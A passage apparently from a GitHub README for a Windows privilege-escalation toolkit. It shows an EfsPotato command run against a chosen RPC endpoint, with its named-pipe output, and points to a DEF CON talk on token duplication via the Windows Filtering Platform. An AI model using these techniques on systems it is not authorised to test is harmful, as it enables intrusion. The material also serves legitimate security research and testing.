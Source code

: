 ![](./figures/EfsPotato.png)

If you want to try other endpoint, set endpoint pipe name with `-e` option as follows.
As far as I tested in Win11 22H2, `efsrpc` is only abusable endpoint for Win11 22H2.

```
PS C:\Dev> .\EfsPotato.exe -i -c powershell -e netlogon

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\{E452876B-D971-4C97-A3B3-D7B672AC2D32}\pipe\srvsvc
[>] Waiting for named pipe connection.
[>] Calling EfsRpcEncryptFileSrv().
    [*] Target File Path   : \\localhost/pipe/{E452876B-D971-4C97-A3B3-D7B672AC2D32}\C$\PrivFu.txt
    [*] Endpoint Pipe Name : \pipe\netlogon
[-] Timeout.
[*] Done.

PS C:\Dev>
```


## Token Duplication with WFP

This method is presented at DEF CON 31 (2023) by Ron Ben-Yizhak.

* [#NoFilter - Abusing Windows Filtering Platform for Privilege Escalation](https://www.deepinstinct.com/blog/nofilter-abusing-windows-filtering-platform-for-privilege-escalation)
* [Slide](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Ron%20Ben-Yizhak%20-%20NoFilter%20Abusing%20Windows%20Filtering%20Platform%20for%20privilege%20escalation.pdf)

